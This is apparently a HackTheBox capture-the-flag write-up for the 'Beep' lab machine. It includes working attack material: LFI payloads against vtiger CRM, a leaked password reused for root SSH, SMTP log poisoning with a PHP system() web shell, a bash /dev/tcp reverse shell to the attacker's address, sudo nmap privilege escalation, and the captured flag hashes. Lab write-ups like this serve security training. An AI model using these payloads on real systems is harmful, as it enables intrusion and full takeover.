


# Beep (Linux)

## Enumeration

```
rustscan 10.129.1.226 -- -Pn -sC -sV -o port_scan

PORT      STATE SERVICE    REASON  VERSION                                                                                                                                                 
22/tcp    open  ssh        syn-ack OpenSSH 4.3 (protocol 2.0)                                                                                     
25/tcp    open  smtp?      syn-ack                                                                                
|_smtp-commands: Couldn't establish connection on port 25                                                                                                                                  
80/tcp    open  http       syn-ack Apache httpd 2.2.3                                                                                                                                      
| http-methods:                                                                                                                                                                            
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                               
|_http-server-header: Apache/2.2.3 (CentOS)                                                                                                                                                
|_http-title: Did not follow redirect to https://10.129.1.226/                                                                                                                             
110/tcp   open  pop3?      syn-ack                                                                                                                                                         
111/tcp   open  rpcbind    syn-ack 2 (RPC #100000)                                                                                                                                         
| rpcinfo:                                                                                                                                                                                 
|   program version    port/proto  service                                                                                                                                                 
|   100000  2            111/tcp   rpcbind                                                                                                                                                 
|   100000  2            111/udp   rpcbind                                                                                                                                                 
|   100024  1            939/udp   status                                                                                                                                                  
|_  100024  1            942/tcp   status                                                                                                                                                  
143/tcp   open  imap?      syn-ack                                                                                                                                                         
443/tcp   open  ssl/https? 
942/tcp   open  status     syn-ack 1 (RPC #100024)
993/tcp   open  imaps?     syn-ack
995/tcp   open  pop3s?     syn-ack
3306/tcp  open  mysql?     syn-ack
|_mysql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve?     syn-ack
4445/tcp  open  upnotifyp? syn-ack
4559/tcp  open  hylafax?   syn-ack
5038/tcp  open  asterisk   syn-ack Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack MiniServ 1.570 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: C08454A9D22EE8B85BF86D00B91C1BC7
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: 59m58s
```

That's a lot to work through. Let's start with the web server

### Examine Port 80 - Apache httpd 2.2.3

Accessing the webserver via the browser, we see a login form.


As we have no idea what the username and password might be, let's first enumerate the webserver to see if there is any helpful information. For that we can use a tool such as `gobuster`.

```
└──╼ $ gobuster dir -u "https://10.129.1.226" -w /usr/share/wordlists/dirb/big.txt -k
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.129.1.226
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/13 18:04:26 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/cgi-bin/ (Status: 403)
/configs (Status: 301)
/favicon.ico (Status: 200)
/help (Status: 301)
/images (Status: 301)
/lang (Status: 301)
/libs (Status: 301)
/mail (Status: 301)
/modules (Status: 301)
/panel (Status: 301)
/recordings (Status: 301)
/robots.txt (Status: 200)
/static (Status: 301)
/themes (Status: 301)
/var (Status: 301)
/vtigercrm (Status: 301)
===============================================================
2021/01/13 18:12:12 Finished
===============================================================
```

## Exploitation

Testing each of those directories, reveals one very interesting one:


vtiger CRM (Version 5.1.0) is an open source customer-relationship management tool, that's based on PHP and MySQL.
Googling for that specific version show that it has several vulnerabilities amongst others an LFI (https://www.exploit-db.com/exploits/18770).

So let's try that:

```
https://10.129.1.226/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00


root:x:0:0:root:/root:/bin/bash 
bin:x:1:1:bin:/bin:/sbin/nologin 
...
fanis:x:501:501::/home/fanis:/bin/bash 
```

It's working! We now know that there is a user called fanis. Using the LFI we can try to obtain the userflag

```
https://10.129.1.226/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../home/fanis/user.txt%00

aea082e5ae690372196d0ebee91146c8 
```

Unfortunately, we cannot obtain the root flag, as the hijacked user apparently does not have enough privileges.

Doing more research on the LFI possibilities for this specific software, I stumbled upon this exploit here (https://www.exploit-db.com/exploits/37637). It basically says, we can leak a specific config file called `/etc/amportal.conf`. It should contain passwords, usernames as well as any other setting of the software.

And indeed! We can leak it and get tons of information.

 

The ridiculous thing here is that they apparently use the same password `jEhdIekWmdjE` for every single user and sub-application like the mysql DB.

Now let's try to login into the admin panel in `/admin`, which we could not access previously. This time it works (username= admin)!



### SSH

At this point I was curious if they used the password for EVERYTHING. So I tried to connect to ssh with root! And it worked! I got a root shell! 

```
└──╼ $ ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 root@10.129.1.226
root@10.129.1.226's password: 
Last login: Tue Sep 29 12:10:12 2020

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.129.1.226

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

### FreePBX

However, I was not quite satisfied with the way how I got root. So maybe there is another way to somehow get a reverse shell, now that we have access to the admin panel.

As the admin panel provides the feature for uploading custom modules, I tried to exploit this, by uploading a malicious module containing a reverse shell. And it worked! (credits to: https://github.com/SamSepiolProxy/FreePBX-Reverse-Shell-Module, which basically provided the module. Due to newer version of the FreePBX software, some changes regarding version had to be made. E.g version tags had to be added in the module.xml file and the tar.gz also had to contain the version number in the name)

```
└──╼ $ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.1.226] 50137
Linux beep 2.6.18-238.12.1.el5 #1 SMP Tue May 31 13:23:01 EDT 2011 i686 athlon i386 GNU/Linux
 22:30:15 up  2:35,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
sh: no job control in this shell
sh-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
```

```
sh-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

As user `asterisk`, we can execute several commands with sudo privileges! From my experience, I immediately recognized the nmap command. It can be exploited to obtain root privileges by spawning a shell in interactive mode. If you are not familiar with those commands and want to know which one can be epxloited to escalate your privileges, you can use https://gtfobins.github.io/.

```
sh-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

### Local File Inclusion to Remote Code Execution
When I read some other writeups, I was fascinated by the fact that there exist several ways to pwn the machine. Another way I stumbled upon exploited LFI. As I am a big fan of LFIs I also had to try this one.


So again we go back to our LFI vulnerability:
```
GET /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

From the ennumeration part, we know that Port 25 (SMTP) is open. Let's it to send a mail to the user `asterisk`, which we leaked from the /etc/passwd file.

```
└──╼ $ telnet 10.129.1.226 25
Trying 10.129.1.226...
Connected to 10.129.1.226.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
EHLO babbadeckl
250-beep.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
VRFY asterisk@localhost             <- verify if this user really exists
252 2.0.0 asterisk@localhost
mail from: babbadeckl@pwn.com
250 2.1.0 Ok
rcpt to: asterisk@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject: RCE
<?php echo system($_REQUEST['babbadeckl']); ?>   <- RCE code

.
250 2.0.0 Ok: queued as 86A1ED92FF
quit
221 2.0.0 Bye
Connection closed by foreign host.
```

Afterwards we can check if the email was successfully sent and received:

```
GET /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../var/mail/asterisk%00
```

With the LFI, we can leak the email that we have just sent. This also means, that our PHP code now gets executed!

```
From babbadeckl@pwn.com  Wed Jan 13 22:48:18 2021
Return-Path: <babbadeckl@pwn.com>
X-Original-To: asterisk@localhost
Delivered-To: asterisk@localhost.localdomain
Received: from babbadeckl (unknown [10.10.14.50])
	by beep.localdomain (Postfix) with ESMTP id 86A1ED92FF
	for <asterisk@localhost>; Wed, 13 Jan 2021 22:47:17 +0200 (EET)
Subject: RCE
Message-Id: <20210113204725.86A1ED92FF@beep.localdomain>
Date: Wed, 13 Jan 2021 22:47:17 +0200 (EET)
From: babbadeckl@pwn.com
To: undisclosed-recipients:;
```

Now when we append our malicious parameter `babbadeckl`, that we included in the injected PHP code, we have RCE:

```
GET /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../var/mail/asterisk%00&babbadeckl=id


Date: Wed, 13 Jan 2021 22:47:17 +0200 (EET)
From: babbadeckl@pwn.com
To: undisclosed-recipients:;

uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
```

Let's spawn a reverse shell!

```
module_name=../../../../../../../../var/mail/asterisk%00&babbadeckl=bash+-i+>%26+/dev/tcp/10.10.14.50/4444+0>%261
```

And we get a shell! Now simply follow the steps from above to obtain root privileges (sudo nmap).

```
└──╼ $ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.1.226] 47868
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
```


## Post Exploitation

We can now obtain the root flag:

```
[root@beep ~]# cat root.txt
78284bce7c9d0b21378ac5bd69ee89c9
```